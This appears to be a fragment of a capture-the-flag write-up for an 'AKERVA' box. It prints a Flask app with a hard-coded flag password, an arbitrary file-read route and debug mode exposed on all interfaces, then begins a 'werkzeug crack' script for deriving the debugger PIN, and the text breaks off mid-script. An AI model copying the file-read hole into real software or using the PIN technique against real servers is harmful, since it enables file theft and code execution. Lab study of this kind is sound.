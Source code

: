 ### space dev.py

!/usr/bin/python

from flask import Flask, request
from flask_httpauth import HTTPBasicAuth
from werkzeug.security import generate_password_hash, check_password_hash

app = Flask(__name__)
auth = HTTPBasicAuth()

users = {
        "aas": generate_password_hash("AKERVA{1kn0w_H0w_TO_$Cr1p_T_$$$$$$$$}")
        }

@auth.verify_password
def verify_password(username, password):
    if username in users:
        return check_password_hash(users.get(username), password)
    return False

@app.route('/')
@auth.login_required
def hello_world():
    return 'Hello, World!'

TODO
@app.route('/download')
@auth.login_required
def download():
    return downloaded_file

@app.route("/file")
@auth.login_required
def file():
	filename = request.args.get('filename')
	try:
		with open(filename, 'r') as f:
			return f.read()
	except:
		return 'error'

if __name__ == '__main__':
    print(app)
    print(getattr(app, '__name__', getattr(app.__class__, '__name__')))
    app.run(host='0.0.0.0', port='5000', debug = True)



### werkzeug crack
import hashlib
from itertools import chain
probably_public_bits = [
        'aas',# username
        'flask.app',# modname
        'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
        '/usr/local/lib/python2.7/dist-packages/flask/app.pyc' # getattr(mod, '__file__', None),
]
